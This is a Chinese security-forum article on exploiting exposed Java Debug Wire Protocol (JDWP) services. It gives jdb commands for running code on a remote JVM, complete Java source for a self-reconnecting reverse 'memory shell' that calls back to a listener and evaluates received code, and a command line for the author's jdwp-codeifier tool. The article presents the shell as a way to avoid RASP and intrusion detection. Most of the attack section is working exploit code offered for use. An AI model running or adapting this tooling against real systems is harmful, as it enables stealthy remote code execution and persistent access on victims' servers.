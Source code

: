 

# 通过 JDWP 漏洞注入"不一样"的内存马 - 先知社区

通过 JDWP 漏洞注入"不一样"的内存马

- - -

JDWP 全称 Java Debug Wire Protocol，JDWP 漏洞指对外开放了 Java 调试服务，从而可以实现远程代码执行。目前 JDWP 的武器化脚本一般只能命令执行，但直接执行命令可能被 RASP 拦截告警，或者被入侵检测发现，而且在实际渗透测试过程中，也不一定需要执行命令，更需要的可能是一个入口，这种情况下通常是注入内存马或者内存代理。本文基于这个需求实现了可以动态执行代码并注入内存马的 JDWP 漏洞利用工具。

## JDWP 漏洞利用

除了通过现有的脚本执行系统命令以外，其实也可以通过 Java 自带工具 jdb 执行任意 Java 代码：

```plain
jdb -connect com.sun.jdi.SocketAttach:hostname=127.0.0.1,port=8000
threads   #查找休眠线程
thread 0x25c   #选择休眠线程
stepi
eval java.lang.System.getProperty("os.name")
```

[![](assets/1701827759-99820e60cfe3717e2ef89e46a2492a85.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205001653-896d7654-92c0-1.png)

但有的类并不能直接使用，会出现找不到该类的情况，例如：

[![](assets/1701827759-d5b2c9c772bf72ee8b80fc37de8aad0d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205001701-8ea0a970-92c0-1.png)

当然也可以通过反射去加载，或者可能还有其他加载方式，不过我也没仔细研究这块，毕竟通过 jdb 执行代码还是很麻烦

## 反向内存 Shell

所谓内存马，应该一般都指内存 WebShell，这块已经有非常多的研究文章了。但如果放到 JDWP 漏洞中来看，可能并不一定适用，因为存在漏洞的应用本身或许不是一个 Web 应用。而这种情况下无论是通过常规意义上的反弹 shell 还是下载二进制木马进行进一步利用，都是一个敏感且高危的操作，可能被 RASP 拦截或者被入侵检测发现。

既然可以执行 Java 代码，那么其实可以在 Java 进程中启动一个线程，通过自定义的逻辑，去反弹出一个执行 Java 代码的"Shell"，具体实现如下：

```plain
package org.example;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineManager;
import java.io.BufferedReader;
import java.io.InputStreamReader;
import java.io.PrintWriter;
import java.net.InetAddress;
import java.net.Socket;
import java.time.Duration;
import java.time.LocalDateTime;

public class App extends Thread {
    private ScriptEngine scriptEngine;

    private String host;
    private Integer port;
    private Double life;

    private String execCode(String code) {
        if (code.trim().equals("")) {
            return "";
        }
        try {
            Object result = scriptEngine.eval(code);
            if (result != null) {
                return result + "\n";
            } else {
                return "";
            }
        } catch (Exception e) {
            return e + "\n";
        }
    }

    private String getInfo() {
        String info = "  os: " + System.getProperty("os.name") + " " + System.getProperty("os.arch") + " " + System.getProperty("os.version");
        info += "\n";
        info += "user: " + System.getProperty("user.name");
        info += "\n";
        try {
            info += "host: " + InetAddress.getLocalHost().getHostName();
        } catch (Exception e) {
            info += "host: " + e;
        }
        return info;
    }

    @Override
    public void run() {
        boolean exit = false;
        LocalDateTime time = LocalDateTime.now();
        while (Duration.between(time, LocalDateTime.now()).toMillis() / (60.0 * 1000.0) < life && !exit) {
            try {
                Socket socket = new Socket(host, port);
                PrintWriter out = new PrintWriter(socket.getOutputStream());
                BufferedReader in = new BufferedReader(new InputStreamReader(socket.getInputStream()));

                scriptEngine = new ScriptEngineManager().getEngineByName("js");

                out.print(getInfo() + "\n\n>>> ");
                out.flush();
                String input;
                while ((input = in.readLine()) != null) {
                    time = LocalDateTime.now();

                    if (input.trim().equals("exit") || input.trim().equals("exit()")) {
                        exit = true;
                        socket.close();
                        break;
                    }
                    out.print(execCode(input) + ">>> ");
                    out.flush();
                }
            } catch (Exception e) {
                ;
            }

            if (!exit) {
                try {
                    Thread.sleep(5 * 1000);
                } catch (InterruptedException e) {
                    ;
                }
            }
        }
    }

    public App(String host, Integer port, Double life) {
        this.host = host;
        this.port = port;
        this.life = life;
    }

    public static void exploit(String host, Integer port, Double life) {
        new App(host,  port,  life).start();
    }

    public static void main(String[] args) {
        exploit("127.0.0.1", 8080, 0.3);
    }
}
```

服务端通过 nc 监听即可：

[![](assets/1701827759-913224eba64dbec7d946e0102fb90d98.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205001716-9773f20a-92c0-1.png)

这样就得到了一个交互式的不易被拦截的代码执行 Shell，对比正向的内存 WebShell，用"反向 Java 内存 Shell"去形容似乎更准确些。按照这个思路，其实还可以写一个"反向 Java 内存代理"，类似于 frp 的 socks5 反向代理功能

## jdwp-codeifier

对于 JDWP 漏洞的武器化利用最早可以追溯到 2014 年的项目：[https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier) ，作者通过 Python2 实现 JDWP 协议，以设置断点的方式获取线程上下文从而调用 Runtime.getRuntime().exec() 执行系统命令

2020 年 Lz1y 借鉴[MSF 中的利用方式](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/misc/java_jdwp_debugger.rb)改写 jdwp-shellifier，通过对 Sleeping 的线程发送单步执行事件，完成断点，从而可以直接获取上下文、执行命令，而不用等待断点被击中，项目地址：[https://github.com/Lz1y/jdwp-shellifier](https://github.com/Lz1y/jdwp-shellifier)

2022 年 r3change 基于原版断点方式的 jdwp-shellifier 进行改写，增加了命令执行的回显，项目地址：[https://github.com/r3change/jdwp-shellifier](https://github.com/r3change/jdwp-shellifier)

但以上都无法满足前文中的代码执行需求，所以我基于 jdwp-shellifier 再次改写了一版进阶的 JDWP 漏洞利用脚本，改名为[jdwp-codeifier](https://github.com/l3yx/jdwp-codeifier)，同样使用不需要等待断点的方式且能够动态执行 Java/Js 代码并获得回显。同时也将上文中的内存 Shell 内置进了工具中，反弹 Java 内存 Shell：

```plain
python jdwp-codeifier.py -t 192.168.65.254 -p 8000 -m rshell -a 127.0.0.1:8080 -l 0.1
# -a 指定接收 shell 的地址
# -l 指定 shell 与服务器连接不上时的最大存活时间（分钟）（每隔 5 秒自动重连）
```

[![](assets/1701827759-077edf7cb759e0818ce72340457b276b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205001730-9f7cc47c-92c0-1.png)

最后，项目地址：[https://github.com/l3yx/jdwp-codeifier](https://github.com/l3yx/jdwp-codeifier)
